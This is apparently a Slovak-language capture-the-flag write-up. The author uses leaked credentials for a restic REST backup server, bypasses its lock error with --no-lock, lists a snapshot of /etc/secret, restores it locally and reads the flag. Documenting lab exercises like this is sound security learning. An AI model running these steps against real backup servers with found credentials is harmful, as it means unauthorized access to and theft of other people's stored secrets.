     restic -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test snapshots
    
    enter password for repository: 
    repository 902ea39d opened (version 2, compression level auto)
    Save(<lock/ffab89f3cb>) returned error, retrying after 501.938496ms: unexpected HTTP response (500): 500 Internal Server Error
    Save(<lock/ffab89f3cb>) returned error, retrying after 2.108163714s: unexpected HTTP response (500): 500 Internal Server Error
      signal interrupt received, cleaning up
    unable to create lock in backend: context canceled
     
    ┌──(kali㉿kali)-[~]
    └─$ restic -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test snapshots --no-lock
    enter password for repository: 
    repository 902ea39d opened (version 2, compression level auto)
    IDTime Host  TagsPaths
    --------------------------------------------------------------------
    8dfb6a02  2024-10-14 16:56:18  fcf671955256  /etc/secret
    --------------------------------------------------------------------
    1 snapshots

OK, tu už nám vrátilo niečo vskutku zaujímavé. Skúsime ďalší príkaz.

    restic -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test ls 8dfb6a02 --no-lock
	enter password for repository: 
	repository 902ea39d opened (version 2, compression level auto)
	[0:00] 100.00%  1 / 1 index files loaded
	snapshot 8dfb6a02 of [/etc/secret] at 2024-10-14 20:56:18.631782921 +0000 UTC by root@fcf671955256 filtered by []:
	/etc
	/etc/secret
	/etc/secret/flag


Nooo, tu už je to zaujímave.. Trochu ďalšieho researchu a zistil som okrem ls môžem použiť aj restore a obnoviť k sebe

    restic -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test restore 8dfb6a02 --target /home/kali/restic_johnson --no-lock
    enter password for repository: 
    repository 902ea39d opened (version 2, compression level auto)
    [0:00] 100.00%  1 / 1 index files loaded
    restoring snapshot 8dfb6a02 of [/etc/secret] at 2024-10-14 20:56:18.631782921 +0000 UTC by root@fcf671955256 to /home/kali/restic_johnson
    Summary: Restored 3 files/dirs (26 B) in 0:00

Bingo... Podme otvoriť súbor s vlajkou!

    $ cat restic_johnson/etc/secret/flag 
    FLAG{OItn-zKZW-cht7-RNH4}
    

----------

## Vlajka ##
    FLAG{OItn-zKZW-cht7-RNH4}